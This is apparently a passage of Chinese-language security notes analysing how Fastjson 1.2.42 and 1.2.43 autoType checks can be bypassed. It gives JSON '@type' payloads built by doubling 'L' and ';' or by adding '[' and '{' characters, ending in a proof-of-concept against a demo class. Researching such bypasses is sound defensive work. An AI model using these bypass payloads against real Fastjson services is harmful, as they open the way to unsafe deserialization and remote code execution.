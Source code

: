 加载的时候

<font style="color:rgb(51, 51, 51);">如果开头是</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">L</font>`<font style="color:rgb(51, 51, 51);">而且结尾是</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">;</font>`<font style="color:rgb(51, 51, 51);">，那么就会给前后这俩字符去掉，所以可以看到我们的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">newClassName</font>`<font style="color:rgb(51, 51, 51);">就是我们想要的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">org.example.User</font>`

## 1.2.42
修复的方法去掉一个L和；

[https://github.com/alibaba/fastjson/commit/e701faa2da7cff6d94394061bbff06a166c2aaaf](https://github.com/alibaba/fastjson/commit/e701faa2da7cff6d94394061bbff06a166c2aaaf)

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747586499609-61bf6e11-2010-4263-81bc-b38268d29198.png)

直接双写

```plain
{"@type":"LLorg.example.User;;","age":66,"username":"test"}
```

## <font style="color:rgb(51, 51, 51);">1.2.43</font>
<font style="color:rgb(51, 51, 51);">所以2个</font>`<font style="background-color:rgb(247, 247, 247);">LL;;</font>`<font style="color:rgb(51, 51, 51);">是行不通了，但是别忘了我们在分析</font>`<font style="background-color:rgb(247, 247, 247);">1.2.41</font>`<font style="color:rgb(51, 51, 51);">的时候，发现还会去掉</font>`<font style="background-color:rgb(247, 247, 247);">[</font>`<font style="color:rgb(51, 51, 51);">然后实例化，这就是绕过点</font>

<font style="color:rgb(51, 51, 51);">初始</font>`<font style="background-color:rgb(247, 247, 247);">payload</font>`

```plain
{"@type":"[org.example.User","age":66,"username":"test"}
```

<font style="color:rgb(51, 51, 51);">报错</font>`<font style="background-color:rgb(247, 247, 247);">exepct '[', but ,, pos 29, json : {"@type":"[org.example.User","age":66,"username":"test"}</font>`<font style="color:rgb(51, 51, 51);">，29那个位置，期望一个</font>`<font style="background-color:rgb(247, 247, 247);">[</font>`<font style="color:rgb(51, 51, 51);">，但是是</font>`<font style="background-color:rgb(247, 247, 247);">,</font>`<font style="color:rgb(51, 51, 51);">，所以我们加一个</font>`<font style="background-color:rgb(247, 247, 247);">[</font>`

```plain
{"@type":"[org.example.User"[,"age":66,"username":"test"}
```

<font style="color:rgb(51, 51, 51);">报错</font>`<font style="background-color:rgb(247, 247, 247);">syntax error, expect {, actual string, pos 30, fastjson-version 1.2.43</font>`<font style="color:rgb(51, 51, 51);">，期望30的位置是一个</font>`<font style="background-color:rgb(247, 247, 247);">{</font>`<font style="color:rgb(51, 51, 51);">，加上</font>

<font style="color:rgb(51, 51, 51);">最终POC</font>

```plain
{"@type":"[org.example.User"[{,"age":66,"username":"test"}
```
